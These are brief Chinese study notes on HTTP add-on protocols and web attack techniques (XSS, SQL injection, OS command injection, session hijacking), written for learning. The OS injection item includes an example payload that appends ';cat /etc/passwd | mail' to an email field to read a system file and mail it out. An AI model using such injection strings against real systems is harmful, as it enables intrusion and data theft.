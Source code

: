 # 第九章 基于HTTP的功能追加协议
1. websocket
   建立连接之后可以直接通信。特点：
   1. 支持推送
   2. 减少通信量
2. HTTP/2.0

# 第11章 web攻击技术
1. XSS Cross-Site Scripting 跨站脚本攻击：通过存在安全漏洞的Web网站注册用户的浏览器内运行非法的HTML标签和JS进行攻击。其中包括：
   1. 反射型： 在url中添加js代码
   2. 存储型： 将恶意代码提交并保存到服务器，之后别人访问url时会运行代码
   3. DOM： 

    防御： 对用户输入做转义

2. sql注入： 通过改写sql并提交，修改或者访问数据库数据
3. os注入： 注入系统命令，比如发送邮件地址的时候，添加 `;cat /etc/passwd | mail xxx@xxx.com`,这时候就会获取到密码并发送
4. 会话劫持： 攻击者获取到用户的sessionID, 并发送请求。
